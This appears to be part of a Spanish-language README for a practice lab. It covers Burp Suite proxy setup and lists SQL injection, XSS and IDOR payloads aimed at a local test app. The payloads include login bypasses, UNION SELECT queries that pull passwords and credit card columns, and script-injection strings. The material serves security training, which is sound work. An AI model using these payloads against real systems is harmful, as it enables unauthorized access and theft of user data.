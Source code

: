 ## 🛠️ Configuración de Burp Suite

### **Paso 1: Configurar Proxy**
1. Abrir Burp Suite
2. Ir a **Proxy > Options**
3. Configurar proxy en `127.0.0.1:8080`

### **Paso 2: Configurar Navegador**
1. Configurar proxy del navegador en `127.0.0.1:8080`
2. Instalar certificado de Burp Suite

### **Paso 3: Interceptar Requests**
1. Activar interceptación en **Proxy > Intercept**
2. Navegar a `http://localhost:3000`
3. Modificar requests para probar vulnerabilidades

### **Paso 4: Usar Repeater**
1. Enviar requests a **Repeater**
2. Modificar payloads
3. Enviar múltiples variaciones

## 📊 Payloads de Prueba

### **SQL Injection Payloads**
```sql
-- Bypass Login
admin' OR '1'='1' --
admin' OR 1=1 --
' OR '1'='1' --

-- Union Select
' UNION SELECT username,password,email,role,credit_card,phone,id FROM users --
' UNION SELECT sql,name,type,NULL,NULL,NULL,NULL FROM sqlite_master --

-- Error Based
' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT(username,0x3a,password,FLOOR(RAND(0)*2))x FROM users GROUP BY x)a) --
```

### **XSS Payloads**
```html
<script>alert('XSS')</script>
<img src=x onerror="alert('XSS')">
<svg onload="alert('XSS')">
javascript:alert('XSS')
```

### **IDOR Payloads**
```
/api/users/1
/api/users/2
/api/users/999
/api/users/1' UNION SELECT * FROM users --
```

